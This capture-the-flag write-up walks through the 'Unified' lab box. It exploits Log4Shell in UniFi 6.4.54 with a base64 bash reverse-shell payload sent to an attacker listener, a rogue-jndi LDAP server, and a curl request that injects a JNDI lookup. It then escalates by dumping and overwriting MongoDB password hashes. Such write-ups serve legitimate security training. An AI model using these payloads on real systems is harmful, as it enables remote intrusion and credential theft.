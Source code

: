 # Unified
## User flag

When starting a box it's always a good idea to run nmap to enumerate services on the target machine. Running `nmap -sV -sC 10.129.97.178` shows us the versions of services running and may point us towards vulnerabilities. The scripts don’t give us much, but we see that the machine has four TCP ports running:

![nmap results](/images/1image.png)


We try going to `10.129.97.178` in a firefox (would help if we do it through BurpSuite in case we need to monitor requests and responses later) but it doesn’t work. That’s because we need to specify port 8080. Trying `http://10.129.97.178:8080` and then accepting the risks takes us to this web page:

![web page](/images/2image.png)


We see that it redirected us to port `8443` and has taken us to a login page. The login page shows that we are dealing with UniFi version `6.4.54`, which may be useful if we want to leverage a vulnerability found in this version.

A quick google search shows us that UniFi version `6.4.54` is vulnerable to the Log4Shell Vulnerability ([CVE-2021-44228](https://www.cve.org/CVERecord?id=CVE-2021-44228)). The CVE page shows that we can run arbitrary code if we are able to leverage this vulnerability.

This page: https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi shows us how to do the exploit. 

In order to do the exploit, we need Java JDK and Maven. Java is already on Kali linux so we download Maven using `sudo apt install maven`.

We can now run `git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package`

This command compiled the jar we will use to construct the reverse shell. 

We need to convert the command to build our reverse shell into base 64 because that is how we will construct our web call to UniFi. The vulnerability takes advantage of the “remember" field. Our payload will go in there. The payload will be the result of this command: 

`echo 'bash -c bash -i >&/dev/tcp/10.10.14.153/4444 0>&1' | base64`

Note we are using our tun0 ip address for this and that we arbitrarily chose port 4444 for the listener port. 

Now we need to set up the LDAP server for our server. Again, this will use our `tun0` IP address. The full command to run will be: 

`java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE1My80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.153"`

We can then run the command to start our attacker LDAP server. 

![Attacker LDAP](/images/3image.png)

Now we need to run a curl command to trigger the reverse shell. The curl command on the exploit page won’t work because our box has many more aspects to the request. 

To know how to modify our request, we can use **BurpSuite** to intercept the login post request. Turn on the Proxy intercept on BurpSuite. Enter "admin" for the username and the password (could be anything you want, not just "admin"). Then we can convert it to a curl request and replace the “remember” portion as shown in the page. 

```
curl -k -X POST https://10.129.97.178:8443/api/login \
  -H 'Host: 10.129.97.178:8443' \
  -H 'Sec-Ch-Ua-Platform: "Linux"' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"' \
  -H 'Content-Type: application/json; charset=utf-8' \
  -H 'Sec-Ch-Ua-Mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36' \
  -H 'Accept: */*' \
  -H 'Origin: https://10.129.97.178:8443' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://10.129.97.178:8443/manage/account/login?redirect=%2Fmanage' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'Priority: u=1, i' \
  -H 'Connection: keep-alive' \
  --data-raw '{"username":"admin","password":"admin","${jndi:ldap://10.10.14.153:1389/o=tomcat}":false,"strict":true}'
```

This should open up a reverse shell in your netcat listener. To make it a little easier to deal with, run `script /dev/null -c bash`.

We start out in `/usr/lib/unifi/data`. But we can navigate to the `/home`directory to see what users are around. We find `/home/michael` here. The user flag (`user.txt`) can be found here. 

## Root flag
Now we need to escalate privileges. Following the article, we see we can run this to get users and their passwords: 

`mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

Most importantly we see this hash: 

administrator@unified.htb
$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.

Continuing to use the article, we can replace the existing password with our own since the password is salted (can’t use John the Ripper or something similar to reverse the hash we see). 

The command we need to adjust is: 

`mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'`

Let's change the password to "password". We can get the hash by running `mkpasswd -m sha-512 password`.

We will get if we change the password to “password”:

`mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$fv8Xt6KTm.SdvlKA$lJapZC4b4o9KBPnPAsWQKyww68/RwvGTpbyjQM5BaqpjB9I6P5Pu1m/oc5MIRlgLHLXSup8tE9TUoWmSjIokm/"}})'`

Now we can log into the website using `administrator` as the username and `password` as the passowrd. 

We can go to settings and scroll down to find out that the `root` password is `NotACrackablePassword4U2022` for ssh. 

Once we log in, we see the `root.txt` file right there in the `/root` folder. 
